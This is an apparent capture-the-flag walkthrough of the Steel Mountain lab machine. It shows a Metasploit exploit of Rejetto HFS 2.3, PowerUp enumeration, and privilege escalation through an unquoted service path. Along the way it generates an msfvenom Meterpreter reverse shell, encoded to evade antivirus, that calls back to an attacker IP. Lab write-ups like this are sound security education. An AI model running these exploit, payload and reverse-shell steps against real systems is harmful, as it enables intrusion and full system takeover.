

<h1>Steel Mountain</h1>

<h3>Reconnaissance</h3>

As always, we begin with an Nmap scan:

`nmap -sC -sV <target-ip>`

After reviewing the results, we notice multiple HTTP services running.

One service immediately stands out:

`8080/tcp open  http  HttpFileServer httpd 2.3`

Researching the version reveals a known Remote Code Execution vulnerability with a public Metasploit module available.

<h3>Initial Exploitation</h3>

We launch Metasploit and use the exploit:

`use exploit/windows/http/rejetto_hfs_exec`

Configure the required options:

`set RHOSTS <target-ip>`
`set RPORT 8080`
`set LHOST <your-ip>`

Example:

`msf exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.114.171.60
RHOSTS => 10.114.171.60

msf exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080

msf exploit(windows/http/rejetto_hfs_exec) > set LHOST 192.168.234.6
LHOST => 192.168.234.6

msf exploit(windows/http/rejetto_hfs_exec) > run`

After successful exploitation, we receive a Meterpreter session.

<h3>User Flag</h3>

The user flag is located on Bill's desktop.

`C:\Users\bill\Desktop`

Read the flag:

`cat user.txt`

<h3>Privilege Escalation Enumeration</h3>

We start by checking the current privileges:

`meterpreter > getprivs`

Nothing particularly useful appears.

Next, we upload PowerUp.ps1 for further enumeration.

First, we create a temporary working directory:

`meterpreter > cd C:\\`

`meterpreter > mkdir Temp`

In real-world environments, working from temporary directories helps reduce noise and stay organized.

Now upload PowerUp:

`upload /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1`

Load PowerShell:

`meterpreter > load powershell`

Open a PowerShell shell:

`meterpreter > powershell_shell`

Import the script:

`PS > . .\PowerUp.ps1`

Run all checks:

`PS > Invoke-AllChecks`

<h3>Unquoted Service Path Vulnerability</h3>

PowerUp reveals a vulnerable service:

`AdvancedSystemCareService9`

The issue is an <em><strong>Unquoted Service Path Vulnerability.</strong></em>

This means Windows may execute an attacker-controlled executable if it exists in a writable path location.

An important detail is:

`CanRestart : True`

This means we can restart the service after replacing the executable.

<h3>Creating a Malicious Payload</h3>

We generate a Meterpreter reverse shell payload using msfvenom:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=4646 -e x86/shikata_ga_nai -f exe > ASCService.exe`

Example:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.234.6 LPORT=4646 -e x86/shikata_ga_nai -f exe > ASCService.exe`

<em><strong>
The executable must be named ASCService.exe so it replaces the original binary.
The x86/shikata_ga_nai encoder is used to help evade basic antivirus detection.
</strong></em>

Exit PowerShell using:

`CTRL + C`

<h3>Replacing the Service Binary</h3>

Navigate to the vulnerable service directory:

`C:\Program Files (x86)\IObit\Advanced SystemCare\`

Attempting to upload the payload immediately fails because the service is still running.

`meterpreter > upload ~/Desktop/HTB/Machines/SteelMountain/ASCService.exe

[-] core_channel_open: Operation failed:
The process cannot access the file because it is being used by another process.`

<h3>Stopping the Service</h3>

Open a shell:

`meterpreter > shell`

Stop the vulnerable service:

`sc stop AdvancedSystemCareService9`

Now upload the malicious executable again:

`meterpreter > upload ~/Desktop/HTB/Machines/SteelMountain/ASCService.exe`

Successful upload:

`[*] Uploaded 15.50 KiB of 15.50 KiB (100.0%)`

<h3>Setting Up the Listener</h3>

Open another Metasploit instance and configure a handler.

`use multi/handler`

Set the payload:

`set payload windows/meterpreter/reverse_tcp`

Set the port:

`set LPORT 4646`

Run the listener:

`run`

<h3>Triggering the Payload</h3>

Back in the shell, restart the vulnerable service.

Once the service starts, the payload executes and we receive a new Meterpreter session.

`[*] Started reverse TCP handler on 192.168.234.6:4646
[*] Sending stage (177734 bytes) to 10.114.176.68`

<h3>Migrating the Process</h3>

New service-based Meterpreter sessions can terminate unexpectedly if the parent process crashes or gets killed.

To stabilize the session, we immediately migrate into another process:

`run post/windows/manage/migrate`

Example output:

`[*] Running module against STEELMOUNTAIN (10.114.166.2)
[*] Current server process: ASCService.exe (3464)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 3240
[+] Successfully migrated into process 3240`

<h3>SYSTEM Access</h3>

Verify the system information:

`meterpreter > sysinfo`

Check the current user:

`meterpreter > getuid`

Result:

`Server username: NT AUTHORITY\SYSTEM`

We now have SYSTEM privileges.

<h3>Root Flag</h3>

The administrator flag is located at:

`C:\Users\Administrator\Desktop`

Read the flag and complete the machine.

